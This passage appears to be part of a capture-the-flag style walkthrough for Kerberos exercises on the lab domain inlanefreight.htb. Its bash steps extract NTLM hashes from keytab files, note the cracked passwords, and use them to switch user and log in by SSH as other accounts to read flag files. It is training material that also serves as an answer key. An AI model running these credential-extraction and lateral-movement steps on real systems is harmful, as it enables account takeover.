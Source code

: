 ```bash
# Extract hashes with KeyTabExtract
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab

# Note the NTLM hash: a738f92b3c08b424ec2d99589a9cce60

# Crack hash (or use crackstation.net)
# Result: Password5

# Login as carlos
su - carlos@inlanefreight.htb
# Password: Password5

# Read flag
cat ~/flag.txt
```

### Exercise 5: Service Account Discovery  
**Question**: "Check Carlos' crontab, and look for keytabs to which Carlos has access. Try to get the credentials of the user svc_workstations and use them to authenticate via SSH. Submit the flag.txt in svc_workstations' home directory."

```bash
# Check Carlos' crontab
crontab -l

# Output shows cron job:
# */5 * * * * /home/carlos@inlanefreight.htb/.scripts/kerberos_script_test.sh

# Navigate to scripts directory
cd /home/carlos@inlanefreight.htb/.scripts/
ls -la

# Files found:
# -rw------- john.keytab
# -rwx------ kerberos_script_test.sh  
# -rw------- svc_workstations._all.kt
# -rw------- svc_workstations.kt

# Extract hash from svc_workstations._all.kt (not .kt!)
python3 /opt/keytabextract.py /home/carlos@inlanefreight.htb/.scripts/svc_workstations._all.kt

# Result: NTLM HASH: 7247e8d4387e76996ff3f18a34316fdd
# Crack at crackstation.net: Password4

# SSH as svc_workstations
ssh svc_workstations@inlanefreight.htb@TARGET_IP -p 2222
# Password: Password4

# Read flag
cat ~/flag.txt
```
